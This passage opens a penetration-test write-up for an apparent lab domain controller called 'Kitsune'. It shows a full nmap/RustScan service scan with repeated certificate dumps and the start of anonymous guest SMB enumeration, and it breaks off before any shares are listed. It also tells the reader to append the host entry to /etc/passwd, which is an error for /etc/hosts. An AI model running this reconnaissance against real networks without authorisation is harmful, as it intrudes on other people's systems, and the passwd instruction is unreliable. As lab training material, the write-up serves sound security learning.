

# Kitsune

## **Objective**

You have been hired to perform an internal pentest against the client's Domain Controller. Your task is to identify all vulnerabilities and (if possible) fully compromise the Domain.

### **Initial Access**

The client has provided you with VPN access to their environment, but no other information.

Here is the IP I received:

```php
10.1.0.213    kitsune.hsm
```

Append it to `/etc/passwd` and kickstart the pen test.

## Enumeration

I ran a basic RustScan first

```bash
└─$ rustscan -a kitsune.hsm -- -A -oN nmap.log

...

Scanning kitsune.hsm (10.1.0.213) [23 ports]
Discovered open port 139/tcp on 10.1.0.213
Discovered open port 49700/tcp on 10.1.0.213
Discovered open port 135/tcp on 10.1.0.213
Discovered open port 53/tcp on 10.1.0.213
Discovered open port 445/tcp on 10.1.0.213
Discovered open port 3389/tcp on 10.1.0.213
Discovered open port 5985/tcp on 10.1.0.213
Discovered open port 49664/tcp on 10.1.0.213
Discovered open port 3269/tcp on 10.1.0.213
Discovered open port 49669/tcp on 10.1.0.213
Discovered open port 464/tcp on 10.1.0.213
Discovered open port 49678/tcp on 10.1.0.213
Discovered open port 49677/tcp on 10.1.0.213
Discovered open port 49740/tcp on 10.1.0.213
Discovered open port 593/tcp on 10.1.0.213
Discovered open port 49666/tcp on 10.1.0.213
Discovered open port 3268/tcp on 10.1.0.213
Discovered open port 389/tcp on 10.1.0.213
Discovered open port 9389/tcp on 10.1.0.213
Discovered open port 49715/tcp on 10.1.0.213
Discovered open port 636/tcp on 10.1.0.213
Discovered open port 49718/tcp on 10.1.0.213
Discovered open port 88/tcp on 10.1.0.213

...

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-11-03 05:53:00Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
| -----BEGIN CERTIFICATE-----
| MIIGOjCCBSKgAwIBAgITOQAAAAL+dB8kudbyVgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBKMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFzAVBgoJkiaJk/IsZAEZFgdraXRz
| dW5lMRgwFgYDVQQDEw9raXRzdW5lLURDMDEtQ0EwHhcNMjYxMDEyMjExNDQwWhcN
| MjcxMDEyMjExNDQwWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0Js43g4LstxG04+oWChlHmBD3
| /JtjOGk7cenhTr/OjAzhpkbJWlwRcZ7PNAmOhgOQrWuyLC9vHXc0toNtU1FyXmst
| f85o7nn9GUk9wsBdx0ZpAx1OHPv+LxzVKTwtcyafGVtuwhjah7FCCvEIkyLtfB9Y
| GNp9CRQ27JPhlYZVtryR0VC+82tN1ROq5JyNRsjsSWTd+5MQw8y5uwUaKfdeIvpd
| V9jWh4W2bW98Ly4feJkNrjKmHjIn/xBgvjNs/NKVSy62oAF0UPrgqvizqqYKjZSL
| oL6pEprqzYVX2s37xfTo70IVXFGIx962UAb9MSiJwUeq93ubN+fA6fJ4fO4pAgMB
| AAGjggNEMIIDQDAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQy
| oPEQ/Vg96gMJrMRUKighCxZ1MDAfBgNVHSMEGDAWgBR7iu6Ujc902vu3x71WOHJZ
| 9Y/0bjCBzAYDVR0fBIHEMIHBMIG+oIG7oIG4hoG1bGRhcDovLy9DTj1raXRzdW5l
| LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1raXRzdW5lLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwwYIKwYBBQUHAQEEgbYwgbMwgbAGCCsGAQUF
| BzAChoGjbGRhcDovLy9DTj1raXRzdW5lLURDMDEtQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9a2l0c3VuZSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsGAQQBgjcZ
| AaASBBB80wjEBx2pRrwFAu3F5YvXghJEQzAxLmtpdHN1bmUubG9jYWwwTwYJKwYB
| BAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTM3NzM1OTAxMjQt
| NDIzNzEwNzI5NS0yMzYwOTM4OTY2LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJeU
| GVU6Mp5DceU/66bokqauNRAT/EAhvQTiz+owuyhhbvqcxP2KDDn9qbGpyxbrFcD6
| 1ycaSDWZB+470aMKfLzz1NhCibSpBV35bPORy1izbDZOoTLqS5UUqzKG/Igmvm9o
| R2XW6Ld9tAyiFvCWwBRtZlXIPXpDz25U/fCkf2gIyMyMcdl0gWvMmNR0JnFgXqHS
| mEUjcN/dubb3SiPAXuNVe7iNkaDPeM7yGZpKtBJhwMj3trD8PBNX1jwZDmJXOHmK
| hk4aodU2VuzmKwhMOMJU0nqp5Untphc4Z6skTPGXfMzhb/+8fZqEZkUXlCy5R1JC
| fBN1LuKdcDRMmb7HO+I=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
| -----BEGIN CERTIFICATE-----
| MIIGOjCCBSKgAwIBAgITOQAAAAL+dB8kudbyVgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBKMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFzAVBgoJkiaJk/IsZAEZFgdraXRz
| dW5lMRgwFgYDVQQDEw9raXRzdW5lLURDMDEtQ0EwHhcNMjYxMDEyMjExNDQwWhcN
| MjcxMDEyMjExNDQwWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0Js43g4LstxG04+oWChlHmBD3
| /JtjOGk7cenhTr/OjAzhpkbJWlwRcZ7PNAmOhgOQrWuyLC9vHXc0toNtU1FyXmst
| f85o7nn9GUk9wsBdx0ZpAx1OHPv+LxzVKTwtcyafGVtuwhjah7FCCvEIkyLtfB9Y
| GNp9CRQ27JPhlYZVtryR0VC+82tN1ROq5JyNRsjsSWTd+5MQw8y5uwUaKfdeIvpd
| V9jWh4W2bW98Ly4feJkNrjKmHjIn/xBgvjNs/NKVSy62oAF0UPrgqvizqqYKjZSL
| oL6pEprqzYVX2s37xfTo70IVXFGIx962UAb9MSiJwUeq93ubN+fA6fJ4fO4pAgMB
| AAGjggNEMIIDQDAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQy
| oPEQ/Vg96gMJrMRUKighCxZ1MDAfBgNVHSMEGDAWgBR7iu6Ujc902vu3x71WOHJZ
| 9Y/0bjCBzAYDVR0fBIHEMIHBMIG+oIG7oIG4hoG1bGRhcDovLy9DTj1raXRzdW5l
| LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1raXRzdW5lLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwwYIKwYBBQUHAQEEgbYwgbMwgbAGCCsGAQUF
| BzAChoGjbGRhcDovLy9DTj1raXRzdW5lLURDMDEtQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9a2l0c3VuZSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsGAQQBgjcZ
| AaASBBB80wjEBx2pRrwFAu3F5YvXghJEQzAxLmtpdHN1bmUubG9jYWwwTwYJKwYB
| BAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTM3NzM1OTAxMjQt
| NDIzNzEwNzI5NS0yMzYwOTM4OTY2LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJeU
| GVU6Mp5DceU/66bokqauNRAT/EAhvQTiz+owuyhhbvqcxP2KDDn9qbGpyxbrFcD6
| 1ycaSDWZB+470aMKfLzz1NhCibSpBV35bPORy1izbDZOoTLqS5UUqzKG/Igmvm9o
| R2XW6Ld9tAyiFvCWwBRtZlXIPXpDz25U/fCkf2gIyMyMcdl0gWvMmNR0JnFgXqHS
| mEUjcN/dubb3SiPAXuNVe7iNkaDPeM7yGZpKtBJhwMj3trD8PBNX1jwZDmJXOHmK
| hk4aodU2VuzmKwhMOMJU0nqp5Untphc4Z6skTPGXfMzhb/+8fZqEZkUXlCy5R1JC
| fBN1LuKdcDRMmb7HO+I=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
| -----BEGIN CERTIFICATE-----
| MIIGOjCCBSKgAwIBAgITOQAAAAL+dB8kudbyVgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBKMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFzAVBgoJkiaJk/IsZAEZFgdraXRz
| dW5lMRgwFgYDVQQDEw9raXRzdW5lLURDMDEtQ0EwHhcNMjYxMDEyMjExNDQwWhcN
| MjcxMDEyMjExNDQwWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0Js43g4LstxG04+oWChlHmBD3
| /JtjOGk7cenhTr/OjAzhpkbJWlwRcZ7PNAmOhgOQrWuyLC9vHXc0toNtU1FyXmst
| f85o7nn9GUk9wsBdx0ZpAx1OHPv+LxzVKTwtcyafGVtuwhjah7FCCvEIkyLtfB9Y
| GNp9CRQ27JPhlYZVtryR0VC+82tN1ROq5JyNRsjsSWTd+5MQw8y5uwUaKfdeIvpd
| V9jWh4W2bW98Ly4feJkNrjKmHjIn/xBgvjNs/NKVSy62oAF0UPrgqvizqqYKjZSL
| oL6pEprqzYVX2s37xfTo70IVXFGIx962UAb9MSiJwUeq93ubN+fA6fJ4fO4pAgMB
| AAGjggNEMIIDQDAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQy
| oPEQ/Vg96gMJrMRUKighCxZ1MDAfBgNVHSMEGDAWgBR7iu6Ujc902vu3x71WOHJZ
| 9Y/0bjCBzAYDVR0fBIHEMIHBMIG+oIG7oIG4hoG1bGRhcDovLy9DTj1raXRzdW5l
| LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1raXRzdW5lLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwwYIKwYBBQUHAQEEgbYwgbMwgbAGCCsGAQUF
| BzAChoGjbGRhcDovLy9DTj1raXRzdW5lLURDMDEtQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9a2l0c3VuZSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsGAQQBgjcZ
| AaASBBB80wjEBx2pRrwFAu3F5YvXghJEQzAxLmtpdHN1bmUubG9jYWwwTwYJKwYB
| BAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTM3NzM1OTAxMjQt
| NDIzNzEwNzI5NS0yMzYwOTM4OTY2LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJeU
| GVU6Mp5DceU/66bokqauNRAT/EAhvQTiz+owuyhhbvqcxP2KDDn9qbGpyxbrFcD6
| 1ycaSDWZB+470aMKfLzz1NhCibSpBV35bPORy1izbDZOoTLqS5UUqzKG/Igmvm9o
| R2XW6Ld9tAyiFvCWwBRtZlXIPXpDz25U/fCkf2gIyMyMcdl0gWvMmNR0JnFgXqHS
| mEUjcN/dubb3SiPAXuNVe7iNkaDPeM7yGZpKtBJhwMj3trD8PBNX1jwZDmJXOHmK
| hk4aodU2VuzmKwhMOMJU0nqp5Untphc4Z6skTPGXfMzhb/+8fZqEZkUXlCy5R1JC
| fBN1LuKdcDRMmb7HO+I=
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
| -----BEGIN CERTIFICATE-----
| MIIGOjCCBSKgAwIBAgITOQAAAAL+dB8kudbyVgAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBKMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFzAVBgoJkiaJk/IsZAEZFgdraXRz
| dW5lMRgwFgYDVQQDEw9raXRzdW5lLURDMDEtQ0EwHhcNMjYxMDEyMjExNDQwWhcN
| MjcxMDEyMjExNDQwWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC0Js43g4LstxG04+oWChlHmBD3
| /JtjOGk7cenhTr/OjAzhpkbJWlwRcZ7PNAmOhgOQrWuyLC9vHXc0toNtU1FyXmst
| f85o7nn9GUk9wsBdx0ZpAx1OHPv+LxzVKTwtcyafGVtuwhjah7FCCvEIkyLtfB9Y
| GNp9CRQ27JPhlYZVtryR0VC+82tN1ROq5JyNRsjsSWTd+5MQw8y5uwUaKfdeIvpd
| V9jWh4W2bW98Ly4feJkNrjKmHjIn/xBgvjNs/NKVSy62oAF0UPrgqvizqqYKjZSL
| oL6pEprqzYVX2s37xfTo70IVXFGIx962UAb9MSiJwUeq93ubN+fA6fJ4fO4pAgMB
| AAGjggNEMIIDQDAvBgkrBgEEAYI3FAIEIh4gAEQAbwBtAGEAaQBuAEMAbwBuAHQA
| cgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUFBwMBMA4GA1Ud
| DwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBggq
| hkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQME
| AQIwCwYJYIZIAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBQy
| oPEQ/Vg96gMJrMRUKighCxZ1MDAfBgNVHSMEGDAWgBR7iu6Ujc902vu3x71WOHJZ
| 9Y/0bjCBzAYDVR0fBIHEMIHBMIG+oIG7oIG4hoG1bGRhcDovLy9DTj1raXRzdW5l
| LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1raXRzdW5lLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwwYIKwYBBQUHAQEEgbYwgbMwgbAGCCsGAQUF
| BzAChoGjbGRhcDovLy9DTj1raXRzdW5lLURDMDEtQ0EsQ049QUlBLENOPVB1Ymxp
| YyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24s
| REM9a2l0c3VuZSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xh
| c3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA+BgNVHREENzA1oB8GCSsGAQQBgjcZ
| AaASBBB80wjEBx2pRrwFAu3F5YvXghJEQzAxLmtpdHN1bmUubG9jYWwwTwYJKwYB
| BAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTM3NzM1OTAxMjQt
| NDIzNzEwNzI5NS0yMzYwOTM4OTY2LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJeU
| GVU6Mp5DceU/66bokqauNRAT/EAhvQTiz+owuyhhbvqcxP2KDDn9qbGpyxbrFcD6
| 1ycaSDWZB+470aMKfLzz1NhCibSpBV35bPORy1izbDZOoTLqS5UUqzKG/Igmvm9o
| R2XW6Ld9tAyiFvCWwBRtZlXIPXpDz25U/fCkf2gIyMyMcdl0gWvMmNR0JnFgXqHS
| mEUjcN/dubb3SiPAXuNVe7iNkaDPeM7yGZpKtBJhwMj3trD8PBNX1jwZDmJXOHmK
| hk4aodU2VuzmKwhMOMJU0nqp5Untphc4Z6skTPGXfMzhb/+8fZqEZkUXlCy5R1JC
| fBN1LuKdcDRMmb7HO+I=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server syn-ack ttl 126
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info:
|   Target_Name: KITSUNE
|   NetBIOS_Domain_Name: KITSUNE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: kitsune.local
|   DNS_Computer_Name: DC01.kitsune.local
|   DNS_Tree_Name: kitsune.local
|   Product_Version: 10.0.26100
|_  System_Time: 2026-11-03T05:54:10+00:00
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Issuer: commonName=DC01.kitsune.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-11T08:21:43
| Not valid after:  2027-04-12T08:21:43
| MD5:     b376 6ca1 5419 2d44 262e 0817 77ab 4bcf
| SHA-1:   0d55 4168 2732 d664 a4a3 77bd e2f6 fb9e 02bf dfae
| SHA-256: ea44 abd8 01e0 9f4b 3c37 fe15 2fca 4188 ce32 2f66 1f72 d496 8bb8 7b06 3aec 5ad4
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQcEuXaz55TpJPwdJF7VNVezANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwHhcNMjYxMDExMDgyMTQzWhcN
| MjcwNDEyMDgyMTQzWjAdMRswGQYDVQQDExJEQzAxLmtpdHN1bmUubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDg8GD+hyjrayBuQ0Vi+r6z5sND
| 7NFz2Hu5vfx3jyxuSajWLNy/3dUdGt23sPM4tizM9rZxYWpoICozdDHubjpX//FM
| t2poj1DQgaTmHipdzLSADH0ox3jf+8hMYbR8vSF6IVyLuCwqEBh4UTg9bn8IKAAa
| JzZk50VaM8BWM5R4aUeH+ayUfH9zBax8QIpL+187irIMAIQPv+0W7UZUSs1wi6Fc
| 6bp2N194VEVmYJQ4McTZyeMQlza85pD+f3m0W0RCDq9CZFG/3jcfcM0T0hUcOnt3
| ew51JMG0BwTIkOpamuu+AV62925/qySQaOUMhFNrdEyfFfNQHUKI/QcfR63ZAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEApr55LhhTL9pVZ8HC6siH4gd5cA3aftGXKaosQP/QziPnDWlU
| QBAQKSVpJdeKFxLmxrUytki3JH7OEV8Of6zGT7iUQqM2Rx93cIdCnc8Oi1Hq6VE9
| u/Ycjofql06MrenyApADUKVCw3XtOa6G+UZK57G2YSyPB3FyBcoyCjMtyvTIHhSc
| iYIBlrINJG4z9edJ5HgBx5JWos5fDjM3hXKtAoycEdX74xH8CiUAq96mm2oJzy76
| 26gsUi2YUmPmMb/2oowEEU3YJ0e7v/uOn4eKAUwe8mNoe0GvxhqHdjQayUEO2t+T
| THJFJZXlbO/m2BCu8NwmhjgyoyF4iEzEaRz69g==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49678/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49700/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49715/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49718/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49740/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.99%I=7%D=11/3%Time=6AE976C2%P=x86_64-pc-linux-gnu%r(Te
SF:rminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\?\x08\0\x02\
SF:0\0\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
```

 The SMB Ports (139/445) should be a good start.

Also from the above scan, I learn that the domain is `kitsune.local`, with the DC `DC01.kitsune.local`, so I can append them to `/etc/hosts`.

```php
10.1.0.213    kitsune.hsm kitsune.local DC01.kitsune.local
```

> I missed the certificate is issued by a CA (`kitsune-DC01-CA`), which will be handy later.
> 

## SMB

Fortunate for me, SMB allows us to login anonymously.

```bash
└─$ smbmap -u 'guest' -p ''  -H kitsune.hsm

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
